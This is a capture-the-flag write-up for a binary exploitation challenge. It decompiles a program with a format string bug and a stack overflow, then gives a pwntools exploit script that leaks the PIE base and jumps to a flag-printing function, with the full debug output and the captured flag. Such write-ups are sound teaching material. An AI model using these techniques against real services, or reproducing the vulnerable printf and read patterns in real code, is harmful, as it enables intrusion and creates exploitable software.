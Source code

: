 # Futuristic Secure Bulletin [250|17 Solves]

_You managed to break into one of the  imposter's communication system, named the Futuristic Secure Bulletin  Service. This service lets the imposters send messages to one another  secretly. Are you able to find out about their secrets?_

**Files**: [`FSBS`](https://nusdsoctf.s3-ap-southeast-1.amazonaws.com/S3/FSBS/FSBS)

```sh
$ checksec FSBS
```

![image-20210301183702996](image-20210301183702996.png)

The only thing missing here is a stack canary; so there's probably an overflow somewhere. Additionally, the title of the challenge abbreviates to `FSB`, which _probably_ refers to a [format string bug](https://docs.pwntools.com/en/stable/fmtstr.html).

### Finding bugs<sup>1</sup>

The binary starts at `main()`, using a number of `rand()` values with `srand(time())`:

```c
int main() {
  time_t timer; // [rsp+8h] [rbp-18h] BYREF
  unsigned t = time(&timer);
  srand(t);
  puts("Getting User Credentials...");
  int uid = rand() % 100;
  usleep(rand() % 1000000);
  puts("Retrieving Device ID...");
  int device_id = rand() % 1000;
  usleep(rand() % 1000000);
  puts("Generating Session...");
  int session_id = rand();
  usleep(rand() % 1000000);
  puts("Connecting...");
  usleep(rand() % 1000000);
  actual_main(uid, device_id, session_id, 0);
}
```

According to the challenge creators, these `usleep()`s are here to slow down remote connections && impede DoS attempts. The values of `rand()` used here are completely predictable, but they're still useless for the purposes of exploitation, so you can forget about almost everything in `main()`.

The last function executed above is something I've labelled`actual_main()`, because it's where the challenge _actually_ starts:

```c
int intromsg() {
  puts("******************************************************************************");
  puts("***********   Welcome to the Futuristic Secure Bulletin System!   ************");
  return puts("******************************************************************************");
}
void getflag() {
	// omitted code that will print data from flag.txt
}
int actual_main(unsigned int uid, unsigned int device_id, unsigned int session_id, int magic) {
  intromsg();
  if ( magic == 1337 )
    getflag();
  printf("User ID: %d \t Device ID: %d \t Session ID: %d\n", uid, device_id, session_id);
  printf("Please enter the recipient's name:");
  fflush(stdout); // these are here because the challenge creator didn't use setvbuf()/stdbuf.
  send_name();
  printf("Enter Message:");
  fflush(stdout);
  send_msg();
  puts("Message Sent!");
  return puts("Thank You for using the Futuristic Secure Bulletin System! Goodbye.");
}
```

There's a flag printing function here, gated behind an if-statement. The challenge creator probably wanted exploiters to call `actual_main(?, ?, ?, 1337)`, but since there're no other xrefs to `actual_main`, it's a lot more sensible to plan an exploit around jumping directly to `getflag()`.

We're getting sidetracked, though. `actual_main()` has two other functions worth looking at: `send_name()` and `send_msg()`. These are the functions that take in user input from stdin.

`send_name()` has no buffer overflow, but it does have a number of other bugs:

```c
void remove_shell_characters(const char *s) {
  for (int i = 0; ; ++i) {
    if ( i >= strlen(s) )
      break;
    if ( s[i] == ';' || s[i] == '\'' || s[i] == '"' || s[i] == '&' || s[i] == '/' || s[i] == '\\' || s[i] == '*' )
      s[i] = ' ';
  }
}
int send_name() {
  char buf[10]; // [rsp+6h] [rbp-Ah] BYREF
  fflush(stdin);
  read(0, buf, 10); // only 10 characters
  remove_shell_characters(buf); // strange function that assumes buf[] is nul-terminated
  puts("Sending message to:");
  printf(buf); // FORMAT STRING EXPLOIT
  return putchar('\n');
}
```

There's a rather obvious format string exploit here, limited to 10 characters. There's also technically an opportunity for an oob-read by `strlen()`, but that's not important. The format string is the key here, as we can use it to leak a PIE address to find `getflag()`.

The next function, `send_msg()`, has a basic buffer overflow that we can use to control the instruction pointer:

```c
size_t send_msg() {
  char buf[256]; // [rsp+0h] [rbp-100h] BYREF
  fflush(stdin);
  read(0, buf, 300uLL);
  return remove_shell_characters(buf);
}
```

In essence, we have 3 things to note:

1. there is a `getflag()` function
2. there is a 10byte format string exploit (use to leak PIE base)
3. there is a ~40 byte buffer overflow (use to call print_flag)

The resulting exploit chain is real simple:

1. use the FSB to leak a PIE address -- this'll be the first return address on `send_name()`'s stack, i.e. `actual_main+0x77`
2. use the overflow to call `getflag()`

[pwnscripts](https://github.com/152334H/pwnscripts) _should've_ made part 1 a breeze, but my printf offset bruteforcer was designed with a minimum length of ~12+ bytes. After making a minor patch (`find_offset.py:123`),

```python
...
# payload = 'A'*8 + '%{}$p\n'.format(i)
payload = '%{}$p\n'.format(i)
...
```

This will work (with an ~7/256 chance of failure: ASLR might mess up `remove_shell_characters()`)

```python
from pwnscripts import *
context.binary = 'FSBS'
def start(s: bytes):
    r = remote('ctf-7jca.balancedcompo.site', 9994)
    r.sendafter('name:', s)
    r.recvline()
    return r, r.recvline()
@context.quiet
def printf(s: bytes):
    r, recv = start(s)
    r.close()
    return recv

context.binary.symbols['send_name_ret'] = 0xc34 + 0x77 # actual_main+0x77
context.binary.symbols['getflag'] = 0xa1a
context.log_level = 'debug'
PIE_off = fsb.find_offset.PIE(printf, offset=context.binary.symbols['send_name_ret'])

r, leak = start('%{}$p\n'.format(PIE_off))
context.binary.symbols['send_name_ret'] = unpack_hex(leak)

r.sendlineafter('Message:', b'A'*0x108 + pack(context.binary.symbols['getflag']))
r.interactive()
```

Resultant output:

```python
[*] 'FSBS'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[DEBUG] pwnscripts: extracted 0x7f2242a2b500
[DEBUG] pwnscripts: extracted 0x36257ffd0b80c540
[DEBUG] pwnscripts: extracted 0xa7024
[DEBUG] pwnscripts: extracted 0x7ffe1914b630
[DEBUG] pwnscripts: extracted 0x555a41d78cab
[*] pwnscripts.fsb.find_offset for 'PIE': 9
[+] Opening connection to ctf-7jca.balancedcompo.site on port 9994: Done
[DEBUG] Received 0x33 bytes:
    b'Selected user namespace base 10000 and range 1000.\n'
[DEBUG] Received 0x19d bytes:
    b'Getting User Credentials...\n'
    b'Retrieving Device ID...\n'
    b'Generating Session...\n'
    b'Connecting...\n'
    b'******************************************************************************\n'
    b'***********   Welcome to the Futuristic Secure Bulletin System!   ************\n'
    b'******************************************************************************\n'
    b'User ID: 65 \t Device ID: 220 \t Session ID: 1571550239\n'
    b"Please enter the recipient's name:"
[DEBUG] Sent 0x5 bytes:
    b'%9$p\n'
[DEBUG] Received 0x32 bytes:
    b'Sending message to:\n'
    b'0x557b4fcdecab\n'
    b'\n'
    b'Enter Message:'
[DEBUG] Sent 0x111 bytes:
    00000000  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    *
    00000100  41 41 41 41  41 41 41 41  1a ea cd 4f  7b 55 00 00  │AAAA│AAAA│···O│{U··│
    00000110  0a                                                  │·│
    00000111
[*] Switching to interactive mode
[DEBUG] Received 0x6e bytes:
    00000000  44 53 4f 2d  4e 55 53 7b  35 36 61 62  65 32 65 36  │DSO-│NUS{│56ab│e2e6│
    00000010  32 36 38 39  30 62 63 64  63 66 35 61  61 62 39 62  │2689│0bcd│cf5a│ab9b│
    00000020  35 30 33 35  38 66 64 34  30 39 36 63  65 64 65 34  │5035│8fd4│096c│ede4│
    00000030  33 66 34 35  33 66 31 38  63 33 30 66  65 33 64 63  │3f45│3f18│c30f│e3dc│
    00000040  37 35 62 30  35 66 66 36  7d 0a 41 41  41 41 41 41  │75b0│5ff6│}·AA│AAAA│
    00000050  41 41 41 41  41 41 41 41  41 41 41 41  41 41 41 41  │AAAA│AAAA│AAAA│AAAA│
    00000060  41 41 41 41  41 41 41 41  41 41 41 41  03 0a        │AAAA│AAAA│AAAA│··│
    0000006e
DSO-NUS{56abe2e626890bcdcf5aab9b50358fd4096cede43f453f18c30fe3dc75b05ff6}
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x03[*] Got EOF while reading in interactive
$
```

## Footnotes

1. All C code blocks here were obtained from IDA Pro + manual prettifying